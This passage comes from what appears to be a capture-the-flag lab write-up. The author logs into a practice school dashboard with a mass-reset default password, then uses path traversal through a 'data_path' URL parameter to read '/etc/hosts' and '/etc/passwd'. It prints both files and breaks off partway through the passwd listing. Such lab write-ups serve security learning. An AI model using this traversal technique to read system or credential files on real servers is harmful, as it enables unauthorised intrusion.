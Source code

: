 16) Opening the link stated in Eunchae's inbox `https://potatos.potato-school.com/new_dashboard/login.php` brings us to login page. As the email stated, all user accounts (students, most likely) had their password reset to `P@$$w0rd`, attempting to login with `Eunchae` as the username & `P@$$w0rd` was successful and allowed us to navigate through the new dashboard, upon changing the password, which I changed to `manchae`.

    ![New_Dashboard_Login.php](@images/2025/pootato-vm-writeup/New_Dashboard_Login.php.png)
    ![New_Dashboard_Login.pup_Eunchae_Success](@images/2025/pootato-vm-writeup/New_Dashboard_Login.pup_Eunchae_Success.png)

    Exploring the various sections, tabs, and buttons in the new dashboard, the one that stood out the most was `Retrieve User Data`. Clicking on `Retrieve User Data` showed that the URL changed to `https://potatos.potato-school.com/new_dashboard/index.php?data_path=%2Feunchae%2Feunchae_data`. In the URL, the path as to which the data is obtained from was stated, which brought to my mind the attack known as [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal).

## Path Traversal

17) Attempting [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal), I decided to look at various files:

    `/etc/hosts`
    ```
    127.0.0.1 localhost
    127.0.1.1 potatos.potato-school.com www.potato-school.com
    # The following lines are desirable for IPv6 capable hosts
    ::1 localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ```
    
    `/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
    mysql:x:100:108:MySQL Server,,,:/var/lib/mysql:/bin/false
    messagebus:x:101:109::/nonexistent:/usr/sbin/nologin
    sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
    tss:x:103:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    usbmux:x:104:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    avahi:x:106:113:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    speech-dispatcher:x:107:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    fwupd-refresh:x:108:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    saned:x:109:118::/var/lib/saned:/usr/sbin/nologin
    geoclue:x:110:119::/var/lib/geoclue:/usr/sbin/nologin